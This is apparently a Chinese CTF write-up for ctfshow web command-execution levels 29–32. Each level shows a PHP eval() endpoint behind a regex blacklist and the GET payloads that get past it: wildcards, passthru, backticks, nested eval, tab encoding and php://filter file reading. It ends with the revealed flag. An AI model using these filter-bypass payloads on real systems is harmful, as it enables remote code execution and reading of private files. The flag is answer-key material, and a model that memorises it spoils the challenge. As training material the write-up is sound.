 # web入门

## 3.命令执行

### Web29

1. 代码审计下

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag/i", $c)){
           eval($c);
       }
       //这里对flag进行了正则匹配过滤
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 通过`GET`请求传递参数，进行代码执行，绕过正则过滤即可

   ```shell
   #查看当前目录下文件
   ?c=system('ls');
   ```

   ![](img/image-20210608182528820.png)

3. 发现有`flag.php`，但是正则过滤了`flag`，这里可以用通配符来绕过

   ```shell
   ?c=system('cat fla?.php');
   
   #php没有显示要查看源代码
   
   #也可以重命名绕过
   ```

   ![](img/image-20210608182811112.png)



### web30

1. 代码审计

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|system|php/i", $c)){
           eval($c);
       }
       //这里对system/php增加了过滤
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 考虑其他系统执行函数进行绕过，还可以用反引号作为系统命令

   ```shell
   ?c=passthru('ls');
   
   #反引号作为系统命令
   ?c=`cp fla?.??? 1.txt`;
   ```

   ![](img/image-20210608185410026.png)

3. 因为过滤了`php`,`flag`,这里用通配符来，查看flag
   
      ```shell
      ?c=passthru('cat fla*');
      ```
   
      
   
      ![](img/image-20210608190019867.png)



### web31

1. 仍然是代码审计

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
           eval($c);
       }
       //在此基础上对cat,sort,shell,.,空格,单引号进行过滤
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里可以构造`eval`函数请求嵌套或者`passthru`函数进行绕过

   ```shell
   ?c=eval($_GET[1]);&1=system('ls');
   
   #passthru函数
   ?c=passthru("ls");
   ```

   ![](img/image-20210608193320346.png)

3. 嵌套函数可以无视正则过滤，但是第二种`passthru`方法，`cat`被过滤了，还可以用`tac`,`more`，单引号被过滤用双引号，空格被过滤用tab键

   ```shell
   ?c=eval($_GET[1]);&1=system('cat flag.php');
   
   #passthru函数
   ?c=passthru("tac%09fla*");
   ```

   ![](img/image-20210608193906927.png)



### web32

1. 代码审计

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
           eval($c);
       }
       //过滤flag，system，php，cat，sort，shell，点号，空格，单引号,反撇号,echo,(
   }else{
       highlight_file(__FILE__);
   } 
   ```
   
2. 用上一题的方法，嵌套包含flag.php文件逃逸出来

   ```shell
   ?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
   
   #php://filter参考文件包含漏洞中的php伪协议
   
   #得到的文字base64再解码
   ctfshow{2bf658c1-4a45-4dea-8ecd-6379c4f22abf}
   ```

   ![3](img/image-20210608202154453.png)

